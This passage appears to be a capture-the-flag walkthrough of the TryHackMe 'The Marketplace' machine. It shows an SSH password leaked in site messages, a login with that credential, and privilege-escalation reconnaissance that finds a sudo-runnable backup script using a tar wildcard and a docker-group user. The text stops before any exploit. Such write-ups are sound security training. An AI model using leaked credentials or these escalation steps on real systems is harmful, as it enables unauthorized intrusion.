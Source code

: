 ```
User 1Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,2Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,3Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.,4Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,5Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,6Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via pr
```
There are passwords in messages? who would know???

anyway we got ssh access now:

`jake:@b_ENXkGYUCAv3zJ`

Get the use flag

```
jake@the-marketplace:~$ cat user.txt
THM{a_user_flag_for_one_dollar}
```

## privilege escalation

The classics first

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
    
```

uh? we run backups as michael? what is michael backing up?

```
jake@the-marketplace:~$ id michael
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
That bad boi michael is in docker group

```
jake@the-marketplace:~$ cd /opt/backups
jake@the-marketplace:/opt/backups$ cat backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
